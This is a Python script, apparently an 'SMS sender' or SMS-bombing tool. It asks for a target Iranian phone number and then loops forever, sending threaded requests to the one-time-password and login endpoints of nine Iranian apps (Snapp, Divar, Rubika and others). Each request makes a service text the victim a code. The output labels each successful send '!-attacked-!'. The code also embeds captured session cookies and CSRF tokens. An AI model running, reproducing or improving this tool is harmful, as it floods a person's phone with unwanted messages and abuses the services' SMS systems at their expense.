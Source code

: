 ﻿#python; running script on: python3 , linux , windows
# imports ------
from os import system
# try !
try:
    import requests
except:
    system('pip install requests')
try:
    import threading
except:
    system('pip install threading')
try:
    import colored
except:
    system('pip install colored')
try:
    from datetime import datetime
except:
    system('pip install datetime')
# !
import time
import requests
import sys
from threading import Thread
from time import sleep
from colored import fg, bg, attr
#-----
# proxy ----
proxy = {"https": "127.0.0.1.8000"}
#--------
try:
    system('clear')
except:
    system('cls')

green="\033[32m"
red ="\033[31m"
blue="\033[36m"
pink="\033[35m"
yellow="\033[93m"
darkblue="\033[34m"
white="\033[00m"

print(f"{blue}\n\n\n\n\nsMs Azad Balochistan\n")
sleep(2)
try:
    tm = requests.get("https://api.codebazan.ir/time-date/?td=all").text
except:
    tm = (datetime.today())

s = f"""{white}|AZAD BALOCHISTAN|\n\n
  {yellow}⟨⟨⟨ {darkblue}date: {blue}(( {tm} )) {yellow}⟩⟩⟩
{pink}
 WOOD CUTTER
 AZAD BALOCHISTAN

{green}
|t.me/tiger_afshin|t.me/tiger_afshin            |
|rubika.ir/caetorr tiger baloch |creator-woodcutter.blogfa.com|\n\n
{yellow}<SMS SENDER> ~ [M.D AfshinBaloch] FROM [ASHIANEH]\n\n
"""
for t in s:
    sys.stdout.write(t)
    sys.stdout.flush()
    time.sleep(0.01)


def snap(phone):
    te = (datetime.today())
    #snap api
    snapH = {"Host": "app.snapp.taxi", "content-length": "29", "x-app-name": "passenger-pwa", "x-app-version": "5.0.0", "app-version": "pwa", "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36", "content-type": "application/json", "accept": "*/*", "origin": "https://app.snapp.taxi", "sec-fetch-site": "same-origin", "sec-fetch-mode": "cors", "sec-fetch-dest": "empty", "referer": "https://app.snapp.taxi/login/?redirect_to\u003d%2F", "accept-encoding": "gzip, deflate, br", "accept-language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6", "cookie": "_gat\u003d1"}
    snapD = {"cellphone":phone}
    try:
        snapR = requests.post("https://app.snapp.taxi/api/api-passenger-oauth/v2/otp", headers=snapH, json=snapD)
        if "OK" in snapR.text:
            print (F"{blue}[+]SNAP SEND | {te}")
        else:
            print (F"{pink}[!] {red}NOT FOUND | {te}")
    except:
        print (f"{pink}[!] {red}NOT SEND")

def shad(phone):
    #shad api
    shadH = {"Host": "shadmessenger12.iranlms.ir","content-length": "96","accept": "application/json, text/plain, */*","user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","content-type": "text/plain","origin": "https://shadweb.iranlms.ir","sec-fetch-site": "same-site","sec-fetch-mode": "cors","sec-fetch-dest": "empty","referer": "https://shadweb.iranlms.ir/","accept-encoding": "gzip, deflate, br","accept-language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6"}
    shadD = {"api_version":"3","method":"sendCode","data":{"phone_number":phone.split("+")[1],"send_type":"SMS"}}
    try:
        shadR = requests.post("https://shadmessenger12.iranlms.ir/", headers=shadH, json=shadD)
        if "OK" in shadR.text:
            print (F"{pink}[*] {green}SHAD SEND")
        else:
            print (f"{pink}[!] {red}NOT FOUND")
    except:
        print (f"{pink}[!] {red}NOT SEND")

def gap(phone):
    #gap api
    gapH = {"Host": "core.gap.im","accept": "application/json, text/plain, */*","x-version": "4.5.7","accept-language": "fa","user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","appversion": "web","origin": "https://web.gap.im","sec-fetch-site": "same-site","sec-fetch-mode": "cors","sec-fetch-dest": "empty","referer": "https://web.gap.im/","accept-encoding": "gzip, deflate, br"}
    try:
        gapR = requests.get("https://core.gap.im/v1/user/add.json?mobile=%2B{}".format(phone.split("+")[1]), headers=gapH)
        if "OK" in gapR.text:
            print (f"\n{pink}[*] %s%s!-attacked-!%s {yellow}| {blue}{te}" % (fg('green'), bg('white'), attr('reset')))
        else:
            print (f"{pink}[!] {red}not found target-!")
    except:
        print (f"{pink}[!] {red}no attack-!")

def tap30(phone):
    #tap30 api
    tap30H = {"Host": "tap33.me","Connection": "keep-alive","Content-Length": "63","User-Agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","content-type": "application/json","Accept": "*/*","Origin": "https://app.tapsi.cab","Sec-Fetch-Site": "cross-site","Sec-Fetch-Mode": "cors","Sec-Fetch-Dest": "empty","Referer": "https://app.tapsi.cab/","Accept-Encoding": "gzip, deflate, br","Accept-Language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6"}
    tap30D = {"credential":{"phoneNumber":"0"+phone.split("+98")[1],"role":"PASSENGER"}}
    try:
        tap30R = requests.post("https://tap33.me/api/v2/user", headers=tap30H, json=tap30D)
        if "OK" in tap30R.text:
            print (f"\n{pink}[*] %s%s!-attacked-!%s {yellow}| {blue}{te}" % (fg('green'), bg('white'), attr('reset')))
        else:
            print (f"{pink}[!] {red}not found target-!\n")
    except:
            print (f"{pink}[!] {red}no attack-!\n")

def emtiaz(phone):
    #emtiaz api
    emH = {"Host": "web.emtiyaz.app","Connection": "keep-alive","Content-Length": "28","Cache-Control": "max-age\u003d0","Upgrade-Insecure-Requests": "1","Origin": "https://web.emtiyaz.app","Content-Type": "application/x-www-form-urlencoded","User-Agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","Accept": "text/html,application/xhtml+xml,application/xml;q\u003d0.9,image/webp,image/apng,*/*;q\u003d0.8,application/signed-exchange;v\u003db3;q\u003d0.9","Sec-Fetch-Site": "same-origin","Sec-Fetch-Mode": "navigate","Sec-Fetch-User": "?1","Sec-Fetch-Dest": "document","Referer": "https://web.emtiyaz.app/login","Accept-Encoding": "gzip, deflate, br","Accept-Language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6","Cookie": "__cfduid\u003dd3744e2448268f90a1ea5a4016884f7331596404726; __auc\u003dd86ede5a173b122fb752f98d012; _ga\u003dGA1.2.719537155.1596404727; __asc\u003d7857da15173c7c2e3123fd4c586; _gid\u003dGA1.2.941061447.1596784306; _gat_gtag_UA_124185794_1\u003d1"}
    emD = "send=1&cellphone=0"+phone.split("+98")[1]
    try:
        emR = requests.post("https://web.emtiyaz.app/json/login", headers=emH, data=emD)
        print (f"\n{pink}[*] %s%s!-attacked-!%s {yellow}| {blue}{te}" % (fg('green'), bg('white'), attr('reset')))
    except:
        print (f"{pink}[!] {red}no attack-!\n")

def divar(phone):
    #divar api
    divarH = {"Host": "api.divar.ir","Connection": "keep-alive","Content-Length": "22","Accept": "application/json, text/plain, */*","User-Agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","Content-Type": "application/x-www-form-urlencoded","Origin": "https://divar.ir","Sec-Fetch-Site": "same-site","Sec-Fetch-Mode": "cors","Sec-Fetch-Dest": "empty","Referer": "https://divar.ir/my-divar/my-posts","Accept-Encoding": "gzip, deflate, br","Accept-Language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6"}
    divarD = {"phone":phone.split("+98")[1]}
    try:
        divarR = requests.post("https://api.divar.ir/v5/auth/authenticate", headers=divarH, json=divarD)
        if "SENT" in divarR.text:
            print (f"\n{pink}[*] %s%s!-attacked-!%s {yellow}| {blue}{te}" % (fg('green'), bg('white'), attr('reset')))
        else:
            print (f"{pink}[!] {red}not found target-!")
    except:
        print (f"{pink}[!] {red}no attack-!")

def rubika(phone):
    #rubika api
    ruH = {"Host": "messengerg2c4.iranlms.ir","content-length": "96","accept": "application/json, text/plain, */*","user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","content-type": "text/plain","origin": "https://web.rubika.ir","sec-fetch-site": "cross-site","sec-fetch-mode": "cors","sec-fetch-dest": "empty","referer": "https://web.rubika.ir/","accept-encoding": "gzip, deflate, br","accept-language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6"}
    ruD = {"api_version":"3","method":"sendCode","data":{"phone_number":phone.split("+")[1],"send_type":"SMS"}}
    try:
        ruR = requests.post("https://messengerg2c4.iranlms.ir/", headers=ruH, json=ruD)
        if "OK" in ruR.text:
            print (f"\n{pink}[*] %s%s!-attacked-!%s {yellow}| {blue}{te}" % (fg('green'), bg('white'), attr('reset')))
        else:
            print (f"{pink}[!] {red}not found target-!\n")
    except:
        print (f"{pink}[!] {red}no attack-!\n")

def torob(phone):
    #torob api
    torobH = {"Host": "api.torob.com","user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","accept": "*/*","origin": "https://torob.com","sec-fetch-site": "same-site","sec-fetch-mode": "cors","sec-fetch-dest": "empty","referer": "https://torob.com/user/","accept-encoding": "gzip, deflate, br","accept-language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6","cookie": "amplitude_id_95d1eb61107c6d4a0a5c555e4ee4bfbbtorob.com\u003deyJkZXZpY2VJZCI6ImFiOGNiOTUyLTk1MTgtNDhhNS1iNmRjLTkwZjgxZTFjYmM3ZVIiLCJ1c2VySWQiOm51bGwsIm9wdE91dCI6ZmFsc2UsInNlc3Npb25JZCI6MTU5Njg2OTI4ODM1MSwibGFzdEV2ZW50VGltZSI6MTU5Njg2OTI4ODM3NCwiZXZlbnRJZCI6MSwiaWRlbnRpZnlJZCI6Miwic2VxdWVuY2VOdW1iZXIiOjN9"}
    try:
        torobR = requests.get("https://api.torob.com/a/phone/send-pin/?phone_number=0"+phone.split("+98")[1], headers=torobH)
        if "sent" in torobR.text:
            print (f"\n{pink}[*] %s%s!-attacked-!%s {yellow}| {blue}{te}" % (fg('green'), bg('white'), attr('reset')))
        else:
            print (f"{pink}[!] {red}not found target-!\n")
    except:
        print (f"{pink}[!] {red}no attack-!\n")

def bama(phone):
    #bama api
    bamaH = {"Host": "bama.ir","content-length": "22","accept": "application/json, text/javascript, */*; q\u003d0.01","x-requested-with": "XMLHttpRequest","user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","csrf-token-bama-header": "CfDJ8N00ikLDmFVBoTe5ae5U4a2G6aNtBFk_sA0DBuQq8RmtGVSLQEq3CXeJmb0ervkK5xY2355oMxH2UDv5oU05FCu56FVkLdgE6RbDs1ojMo90XlbiGYT9XaIKz7YkZg-8vJSuc7f3PR3VKjvuu1fEIOE","content-type": "application/x-www-form-urlencoded; charset\u003dUTF-8","origin": "https://bama.ir","sec-fetch-site": "same-origin","sec-fetch-mode": "cors","sec-fetch-dest": "empty","referer": "https://bama.ir/Signin?ReturnUrl\u003d%2Fprofile","accept-encoding": "gzip, deflate, br","accept-language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6","cookie": "CSRF-TOKEN-BAMA-COOKIE\u003dCfDJ8N00ikLDmFVBoTe5ae5U4a1o5aOrFp-FIHLs7P3VvLI7yo6xSdyY3sJ5GByfUKfTPuEgfioiGxRQo4G4JzBin1ky5-fvZ1uKkrb_IyaPXs1d0bloIEVe1VahdjTQNJpXQvFyt0tlZnSAZFs4eF3agKg"}
    bamaD = "cellNumber=0"+phone.split("+98")[1]
    try:
        bamaR = requests.post("https://bama.ir/signin-checkforcellnumber", headers=bamaH, data=bamaD)
        if "0" in bamaR.text:
            print (f"\n{pink}[*] %s%s!-attacked-!%s {yellow}| {blue}{te}" % (fg('green'), bg('white'), attr('reset')))
        else:
            print (f"{pink}[!] {red}not found target-!\n")
    except:
        print (f"{pink}[!] {red}no attack-!\n")

try:
    phone = str(input(f"{blue}Number Target {darkblue}(+98XXXXXXXXXX) {green}⟩⟩> {white}"))
    while True:
        Thread(target=snap, args=[phone]).start()
        Thread(target=shad, args=[phone]).start()
        Thread(target=gap, args=[phone]).start()
        Thread(target=tap30, args=[phone]).start()
        Thread(target=emtiaz, args=[phone]).start()
        Thread(target=divar, args=[phone]).start()
        Thread(target=rubika, args=[phone]).start()
        Thread(target=torob, args=[phone]).start()
        Thread(target=bama, args=[phone]).start()
        
        


except:
        print()
